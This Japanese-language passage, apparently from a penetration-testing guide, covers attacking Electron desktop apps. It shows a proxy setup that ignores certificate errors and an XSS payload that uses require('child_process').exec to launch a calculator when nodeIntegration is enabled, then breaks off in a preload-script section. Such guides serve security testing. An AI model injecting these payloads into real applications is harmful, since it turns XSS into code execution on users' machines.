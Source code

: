 start-mainの設定を変更し、プロキシの使用を追加します。例えば、以下のようにします:
```javascript
"start-main": "electron ./dist/main/main.js --proxy-server=127.0.0.1:8080 --ignore-certificateerrors",
```
## RCE: XSS + nodeIntegration

もし **nodeIntegration** が **on** に設定されている場合、ウェブページのJavaScriptは`require()`を呼び出すだけで簡単にNode.jsの機能を使用することができます。例えば、Windows上でcalcアプリケーションを実行する方法は以下の通りです:
```html
<script>
require('child_process').exec('calc');
// or
top.require('child_process').exec('open /System/Applications/Calculator.app');
</script>
```
<figure><img src="../../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

## RCE: preload

この設定で指定されたスクリプトは、**レンダラー内の他のスクリプトよりも先にロード**されるため、**Node APIへの無制限なアクセス**が可能です。
```javascript
new BrowserWindow{
webPreferences: {
nodeIntegration: false,
preload: _path2.default.join(__dirname, 'perload.js'),
}
});
```
したがって、スクリプトはノードの機能をページにエクスポートできます：
